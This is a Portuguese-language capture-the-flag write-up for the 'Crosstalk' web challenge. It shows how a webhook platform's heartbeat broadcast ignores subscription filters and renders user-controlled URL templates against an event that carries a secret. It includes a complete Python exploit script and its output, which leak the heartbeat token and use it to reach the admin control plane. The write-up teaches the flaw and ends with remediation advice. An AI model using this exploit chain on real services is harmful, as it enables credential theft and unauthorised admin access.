

# Crosstalk | Fluid Attacks CTF 2026

`web` `template-injection` `broken-access-control` `secret-leak` `flask`

| | |
|---|---|
| **Plataforma / evento** | Fluid Attacks CTF 2026 (etapa 2, 04/07/2026) |
| **Categoria** | Web |
| **Resolvido em** | 2026-07-04 |

## TL;DR

O HookRelay deixa qualquer usuário criar uma assinatura (subscription) com um `url_template`. Eventos normais respeitam o filtro da assinatura, mas o evento interno `system.heartbeat` é tratado por um caminho de "broadcast" que **ignora o filtro** e renderiza o template de todas as assinaturas. Esse heartbeat carrega o segredo do control plane (`HEARTBEAT_TOKEN`) no campo `actor.context.continuation_id`, e o motor de template resolve caminhos aninhados `{{actor.context.continuation_id}}`. Então eu crio uma assinatura cuja URL embute esse caminho, espero o heartbeat (1 por minuto), leio meu próprio audit log e recebo o token já interpolado na `rendered_url`. Com o token no header `X-Heartbeat-Token`, o endpoint `/api/v2/admin/control` me devolve a flag.

> [!IMPORTANT]
> **Ideia-chave:** o "crosstalk" é um evento privilegiado sendo renderizado contra um template controlado pelo usuário. O template vira um primitivo de leitura do contexto do evento, e o contexto tem o segredo.

## Enunciado

> HookRelay, a webhook delivery platform. Subscribe to events and get them delivered to your URL.

**Arquivos / instância:** `public.zip` (senha `infected`) com o código-fonte de uma app Flask (HookRelay). Na minha instância o host era `898073117840408a.chal.ctf.ae`. O objetivo é alcançar o control plane admin e recuperar a flag.

## Dicas progressivas

<details><summary>Dica 1</summary>O endpoint admin não pede JWT privilegiado, pede um header com um valor secreto. Onde esse valor circula na aplicação?</details>
<details><summary>Dica 2</summary>O <code>system.heartbeat</code> carrega o segredo e é "broadcast" para todas as assinaturas, sem checar o filtro.</details>
<details><summary>Dica 3</summary>Crie uma assinatura com <code>url_template</code> contendo <code>{{actor.context.continuation_id}}</code> e leia o seu audit log: o token volta renderizado.</details>

## Ambiente

- **Máquina atacante:** Kali Linux, Python 3 (`requests`), `7z` para extrair o pacote.

***INSERIR no terminal: Kali (atacante)

```bash
export TARGET=898073117840408a.chal.ctf.ae
7z x -pinfected public.zip -osrc -y
```

Na minha instância o host era esse. O `public.zip` usa compressão AES, então o `unzip` padrão falha; o `7z` com a senha `infected` resolve.

## Resolução

### 1. Extração dos arquivos

O `public.zip` (senha `infected`) traz o pacote `hookrelay`. `unzip` não abre o AES, então `7z`:

***INSERIR no terminal: Kali (atacante)

```bash
7z x -pinfected public.zip -osrc -y && find src/hookrelay -name '*.py'
```

```text
src/hookrelay/control.py
src/hookrelay/config.py
src/hookrelay/events.py
src/hookrelay/subscriptions.py
src/hookrelay/audit.py
src/hookrelay/templating.py
...
```

Vários módulos. A cadeia desse desafio só aparece lendo como eles se conectam: o `control.py` (o que o endpoint admin exige), o `events.py` (o heartbeat e o segredo), e o par `subscriptions.py`/`audit.py` (onde o filtro é ignorado). Vou por essa ordem.

### 2. O que o control plane exige

#### `hookrelay/control.py`

```python
@bp.route("/api/v2/admin/control", methods=["GET"])
def admin_control():
    token = request.headers.get("X-Heartbeat-Token", "")
    if not token:
        return jsonify({"error": "Missing X-Heartbeat-Token header"}), 401
    if not hmac.compare_digest(token, HEARTBEAT_TOKEN):
        return jsonify({"error": "Invalid heartbeat token"}), 403
    return jsonify({"flag": FLAG, "endpoint": "control_plane", "version": "v2"})
```

#### `hookrelay/config.py`

```python
HEARTBEAT_TOKEN = secrets.token_hex(24)   # 48 hex chars, aleatório
```

Ou seja: não preciso de um JWT admin, preciso do valor exato do `HEARTBEAT_TOKEN`. A pergunta vira: onde esse segredo aparece de uma forma que um usuário comum consiga observar?

### 3. O segredo viaja no evento de heartbeat

#### `hookrelay/events.py`

```python
def _heartbeat_loop():
    while True:
        event = {
            "id": secrets.token_hex(8),
            "type": "system.heartbeat",
            "actor": {"role": "system",
                      "context": {"continuation_id": HEARTBEAT_TOKEN}},  # <-- segredo aqui
            "region": "us-east-1",
            "ts": int(time.time()),
        }
        record_system_broadcast(event)
        time.sleep(60)
```

O token não fica preso no módulo de controle: ele entra no fluxo de auditoria como `actor.context.continuation_id`, uma vez por minuto. Falta ver se um usuário comum consegue fazer esse campo aparecer numa resposta dele.

### 4. O broadcast ignora o filtro (o crosstalk)

Uma assinatura comum aceita `url_template` começando com `https://` e um filtro da allowlist, que **não** inclui eventos de sistema:

#### `hookrelay/subscriptions.py`

```python
ALLOWED_FILTERS = {
    "user.*", "user.created", "user.updated",
    "webhook.*", "webhook.delivered", "webhook.failed",
}
```

Parece que não dá para "assinar" `system.heartbeat`. Mas o caminho de broadcast não consulta o filtro: ele percorre todas as assinaturas, renderiza a URL de cada uma contra o evento e grava no audit log do dono:

#### `hookrelay/audit.py`

```python
def record_system_broadcast(event: dict) -> None:
    for sub in iter_subscriptions():
        rendered = render(sub["url_template"], event)   # renderiza SEM checar filtro
        _append({"owner": sub["owner"], "event_type": event["type"],
                 "rendered_url": rendered, "status": "system_broadcast", ...})

@bp.route("/api/v2/audit/dispatches", methods=["GET"])
def list_dispatches():
    payload, err = require_user_jwt()
    owned = [e for e in _LOG if e["owner"] == payload["sub"]]
    return jsonify(owned[-50:])   # devolve ao dono as linhas renderizadas
```

E o motor de template resolve caminhos aninhados:

#### `hookrelay/templating.py`

```python
_TOKEN = re.compile(r"\{\{\s*([A-Za-z0-9_.]+)\s*\}\}")
def render(template: str, ctx) -> str:
    return _TOKEN.sub(lambda m: _resolve(m.group(1), ctx), template)
```

A cadeia fecha: eu controlo a URL; a URL pode pedir `{{actor.context.continuation_id}}`; o broadcast renderiza a URL contra o evento privilegiado (ignorando meu filtro); o resultado volta no meu audit log.

> [!TIP]
> **Conceito: injeção de template / crosstalk de contexto.** O `url_template` é interpolado contra o objeto do evento. Quando um evento privilegiado (com segredos) é renderizado contra um template de um usuário sem privilégio, o template funciona como uma consulta: `{{caminho.aninhado}}` extrai qualquer campo do contexto. A falha de autorização (broadcast ignora o filtro) é o que conecta o evento secreto ao template do atacante. Nenhum callback externo é necessário: o audit log é o canal de retorno.

### 5. Exploração automatizada

O exploit registra um usuário, cria a assinatura com o template de vazamento (a URL aponta para `guerreiro.invalid`, um domínio reservado, porque a entrega externa está desabilitada no sandbox e o audit log é o registro canônico), faz polling do audit log até o heartbeat aparecer, extrai o token da `rendered_url` e o usa no control plane. Script completo, idêntico ao arquivo em `scripts/`:

> [!NOTE]
> O `TARGET_HOST` está fixo no topo do script (era a minha instância). Troque pela sua antes de rodar.

#### `scripts/script1.py`

```python
#!/usr/bin/env python3
"""
Exploit para o desafio Crosstalk.

Ideia técnica:
1. Registrar um usuário comum.
2. Criar uma subscription com um url_template contendo:
   {{actor.context.continuation_id}}
3. Esperar o evento interno system.heartbeat.
4. Ler /api/v2/audit/dispatches.
5. Extrair o HEARTBEAT_TOKEN vazado dentro do rendered_url.
6. Usar esse token no header X-Heartbeat-Token contra /api/v2/admin/control.
"""

import json
import re
import time
import sys
from urllib.parse import urlparse

import requests
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

TARGET_HOST = "898073117840408a.chal.ctf.ae"

# Testamos HTTPS primeiro porque os outros desafios da plataforma costumam responder em HTTPS,
# mas deixamos HTTP como fallback caso esse serviço esteja somente em HTTP.
BASE_URLS = [
    f"https://{TARGET_HOST}",
    f"http://{TARGET_HOST}",
]

USERNAME = "guerreiro"

# O token tem secrets.token_hex(24), então são 48 caracteres hexadecimais.
TOKEN_RE = re.compile(r"/leak/([0-9a-f]{48})(?:\?|/|$)", re.IGNORECASE)
FLAG_RE = re.compile(r"flag\{[^}\r\n]+\}", re.IGNORECASE)


def show_response(label, response):
    """Mostra resposta HTTP de forma útil para debugging."""
    print()
    print("=" * 90)
    print(label)
    print("=" * 90)
    print("[*] URL:", response.url)
    print("[*] Status:", response.status_code)
    print("[*] Content-Type:", response.headers.get("Content-Type", ""))

    text = response.text
    if len(text) > 2000:
        print(text[:2000] + "\n...[truncado]...")
    else:
        print(text)


def check_base_url(base_url):
    """Confirma se a aplicação responde nesse esquema."""
    try:
        response = requests.get(
            f"{base_url}/health",
            timeout=10,
            verify=False,
        )
        return response.status_code == 200 and "ok" in response.text.lower()
    except Exception:
        return False


def register_user(session, base_url):
    """Registra usuário comum e retorna o JWT."""
    response = session.post(
        f"{base_url}/api/auth/register",
        json={"username": USERNAME},
        timeout=15,
        verify=False,
    )

    show_response("REGISTRO DE USUÁRIO", response)
    response.raise_for_status()

    data = response.json()
    token = data["token"]
    user_id = data["user_id"]

    print("[+] user_id:", user_id)
    print("[+] JWT recebido")

    return token


def create_leaking_subscription(session, base_url, token):
    """
    Cria uma subscription com template que será renderizado contra eventos.

    O filtro permitido não inclui system.heartbeat, mas isso não importa para o bug,
    porque record_system_broadcast() ignora o filtro e grava uma linha de auditoria
    para todas as subscriptions ativas.
    """
    headers = {"Authorization": f"Bearer {token}"}

    body = {
        "name": "heartbeat-leak",
        "filter": "user.*",
        "url_template": (
            "https://guerreiro.invalid/leak/"
            "{{actor.context.continuation_id}}"
            "?event={{type}}&region={{region}}&ts={{ts}}"
        ),
    }

    response = session.post(
        f"{base_url}/api/v2/subscriptions",
        headers=headers,
        json=body,
        timeout=15,
        verify=False,
    )

    show_response("CRIAÇÃO DA SUBSCRIPTION MALICIOSA", response)
    response.raise_for_status()

    return response.json()


def poll_audit_for_heartbeat_token(session, base_url, token):
    """
    Consulta o audit log até aparecer uma linha system.heartbeat
    com rendered_url contendo o continuation_id.
    """
    headers = {"Authorization": f"Bearer {token}"}

    print()
    print("=" * 90)
    print("POLLING DO AUDIT LOG")
    print("=" * 90)
    print("[*] Aguardando system.heartbeat. Pode levar até cerca de 60 segundos.")

    deadline = time.time() + 95
    attempt = 0

    while time.time() < deadline:
        attempt += 1

        response = session.get(
            f"{base_url}/api/v2/audit/dispatches",
            headers=headers,
            timeout=15,
            verify=False,
        )

        print(f"[*] Tentativa {attempt}: status {response.status_code}")

        if response.status_code != 200:
            print(response.text[:500])
            time.sleep(5)
            continue

        try:
            entries = response.json()
        except Exception:
            print("[-] Resposta não é JSON:")
            print(response.text[:1000])
            time.sleep(5)
            continue

        # Salva a última visão do audit log para writeup/debug.
        with open("loot/script1_audit_latest.json", "w", encoding="utf-8") as f:
            json.dump(entries, f, indent=2, ensure_ascii=False)

        for entry in entries:
            rendered_url = entry.get("rendered_url", "")
            event_type = entry.get("event_type", "")

            match = TOKEN_RE.search(rendered_url)
            if match:
                heartbeat_token = match.group(1)

                print()
                print("[+] Vazamento encontrado no audit log")
                print("[+] event_type:", event_type)
                print("[+] rendered_url:", rendered_url)
                print("[+] HEARTBEAT_TOKEN:", heartbeat_token)

                with open("loot/script1_heartbeat_token.txt", "w", encoding="utf-8") as f:
                    f.write(heartbeat_token + "\n")

                return heartbeat_token

        time.sleep(5)

    raise RuntimeError("Não encontrei o HEARTBEAT_TOKEN no audit log dentro do tempo limite.")


def call_control_plane(session, base_url, heartbeat_token):
    """Usa o token vazado para acessar o control plane e obter a flag."""
    headers = {"X-Heartbeat-Token": heartbeat_token}

    response = session.get(
        f"{base_url}/api/v2/admin/control",
        headers=headers,
        timeout=15,
        verify=False,
    )

    show_response("ACESSO AO CONTROL PLANE", response)

    body = response.text
    match = FLAG_RE.search(body)

    if match:
        flag = match.group(0)
        print()
        print("=" * 90)
        print("[+] FLAG ENCONTRADA")
        print("=" * 90)
        print(flag)

        with open("flag.txt", "w", encoding="utf-8") as f:
            f.write(flag + "\n")

        print("[+] Flag salva em flag.txt")
        return True

    print("[-] Flag não encontrada na resposta do control plane.")
    return False


def main():
    session = requests.Session()

    for base_url in BASE_URLS:
        print()
        print("=" * 90)
        print("[*] Testando base URL:", base_url)
        print("=" * 90)

        if not check_base_url(base_url):
            print("[-] /health não respondeu corretamente nessa base URL.")
            continue

        print("[+] Base URL válida:", base_url)

        try:
            token = register_user(session, base_url)
            create_leaking_subscription(session, base_url, token)
            heartbeat_token = poll_audit_for_heartbeat_token(session, base_url, token)

            if call_control_plane(session, base_url, heartbeat_token):
                return 0

        except Exception as exc:
            print()
            print("[-] Falha nessa base URL:", repr(exc))
            continue

    print()
    print("=" * 90)
    print("[-] Exploit não concluiu")
    print("=" * 90)
    print("[*] Arquivos úteis:")
    print("    loot/script1_audit_latest.json")
    print("    loot/script1_heartbeat_token.txt")
    return 1


if __name__ == "__main__":
    sys.exit(main())
```

***INSERIR no terminal: Kali (atacante)

```bash
mkdir -p loot && python3 scripts/script1.py
```

```text
[+] Base URL válida: https://898073117840408a.chal.ctf.ae
[+] user_id: usr_e0bc2276d569

POLLING DO AUDIT LOG
[*] Aguardando system.heartbeat. Pode levar até cerca de 60 segundos.
[+] Vazamento encontrado no audit log
[+] rendered_url: https://guerreiro.invalid/leak/f2600e7fb9fc07fef9592606ac5fc4309b41278f060811a1?event=system.heartbeat&region=us-east-1&ts=1783187228
[+] HEARTBEAT_TOKEN: f2600e7fb9fc07fef9592606ac5fc4309b41278f060811a1

ACESSO AO CONTROL PLANE
[*] Status: 200
{"endpoint":"control_plane","flag":"flag{b12719f0d95XXXXX}","version":"v2"}
```

O token vazado (`f2600e7f...`) é exatamente o `HEARTBEAT_TOKEN` do processo, que o template extraiu do evento de heartbeat e o audit log me devolveu. No header `X-Heartbeat-Token`, ele libera o control plane e a flag.

## Cadeia de ataque



## Por que funciona

A suposição quebrada é que o filtro da assinatura confina qual evento um usuário "vê". O caminho de broadcast de eventos de sistema renderiza o template de todo mundo sem checar filtro, e o template tem acesso ao objeto inteiro do evento, inclusive o segredo. Some-se a isso o fato de o segredo de autorização do control plane ser exatamente esse campo do heartbeat: o atacante transforma um primitivo de template (leitura de campo do contexto) em roubo de credencial. A primitiva é ler qualquer campo de um evento privilegiado; o impacto é virar admin.

## Remediação

- O broadcast de sistema não deve renderizar templates de usuários comuns; e, se renderizar, o contexto exposto ao template deve ser mínimo (sem segredos).
- Não colocar credenciais em campos de evento que passam por templating.
- Separar o segredo do control plane de qualquer coisa que entre no pipeline de auditoria/entrega.

## Lições e padrões

- **Sinais para reconhecer:** templates com caminhos aninhados (`{{a.b.c}}`) interpolados contra objetos de evento; um caminho "privilegiado" (system/broadcast) que não aplica a mesma autorização dos caminhos normais; segredos guardados dentro de objetos que trafegam por logs/entregas.
- **Da próxima vez eu tentaria primeiro:** mapear todos os campos do evento mais sensível e tentar extrair cada um via template; procurar caminhos de código "broadcast"/"system"/"internal" que pulem a checagem de filtro/permissão.

## Referências

- [OWASP: Server-Side Template Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/18-Testing_for_Server-side_Template_Injection)
- [OWASP API1:2023 Broken Object Level Authorization](https://owasp.org/API-Security/editions/2023/en/0xa1-broken-object-level-authorization/)

## Flag

```text
flag{b12719f0d95XXXXX}
```
